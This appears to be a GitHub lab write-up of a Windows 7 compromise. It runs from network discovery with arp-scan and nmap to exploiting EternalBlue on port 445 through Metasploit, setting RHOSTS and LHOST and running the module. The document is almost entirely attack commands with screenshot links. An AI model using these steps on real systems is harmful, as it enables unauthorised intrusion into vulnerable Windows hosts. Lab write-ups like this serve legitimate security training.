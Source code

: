 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/2b137a71-3018-4d18-b8cd-04ef8c3918bc"></picture></h1>

## **DISCOVERING**
```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/330d5006-3db7-4b91-a455-0419280d6267)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/b902063a-5b9e-49d3-bb65-272c47d57950)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.154 -oG allports
```
![image](https://github.com/user-attachments/assets/0043ae4a-6410-468e-9442-8e3eb04d78cd)

```bash
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.154 -oN targeted
```
![image](https://github.com/user-attachments/assets/96470cbf-bc8c-4c20-84df-f741d31e8875)

## **It is a windows7 machine and has port 445 open so we will test if it is vulnerable to Ethernal Blue.**

```bash
nmap --script "vuln and safe" -p445 192.168.1.154
```
![image](https://github.com/user-attachments/assets/9a1730e1-08e0-42ca-a976-b546580284a3)

## **We started Metasploit**
```bash
sudo msfdb init && msfconsole
```
![image](https://github.com/user-attachments/assets/a89be94f-c6b9-4288-930d-7ae064a7e9ad)

## **We look for a sploit for the found vulnerability**
```bash
search eternalblue
```
![image](https://github.com/user-attachments/assets/67d00fe7-43f1-4777-aed0-32ff1f1e4810)

## **Explotation**

```bash
usea 0
show options
```
![image](https://github.com/user-attachments/assets/0aeb4831-dea3-41d5-ad93-319327b42c19)

## **Configuring attack**
```bash
set RHOSTS 192.168.1.154
set LHOST 192.168.1.228
show options
```
![image](https://github.com/user-attachments/assets/cc37f640-3511-4610-a06b-aa50a8be60eb)
```bash
run
```

## **We started an inquiry to obtain information**
![image](https://github.com/user-attachments/assets/7b361969-29b6-4c69-9048-c2458d6d2732)
![image](https://github.com/user-attachments/assets/e81424fe-729a-40fb-b240-6c9a15d86d0d)
![image](https://github.com/user-attachments/assets/09a95e5c-046f-4803-8bde-bd7e816c98e9)
![image](https://github.com/user-attachments/assets/accbb18e-9464-4c09-952b-4508334e3bdd)




